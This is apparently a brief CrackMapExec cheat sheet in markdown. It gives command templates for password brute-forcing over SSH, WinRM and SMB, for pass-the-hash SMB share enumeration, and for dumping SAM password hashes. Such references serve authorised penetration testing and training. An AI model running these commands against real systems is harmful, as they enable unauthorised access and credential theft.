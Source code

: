 # cme

CrackMapExec

## brute-force password: SSH

```
cme ssh <host> -u <users> -p <passwords>
```

## brute-force password: WinRM

```
cme winrm <host> -d <domain> -u <users> -p <passwords>
```

## brute-force password: SMBv1

```
cme smb <host> -d <domain> -u <users> -p <passwords>
```

## enumerate SMB shares

* authenticate via LM/NTLM hash

```
cme smb <host> -u <user> -H [LM hash:]<NTLM hash> --shares
```

## dump SAM hashes

```
cme smb <host> -u administrator -p <password> --sam
```

## [...](https://github.com/byt3bl33d3r/CrackMapExec)
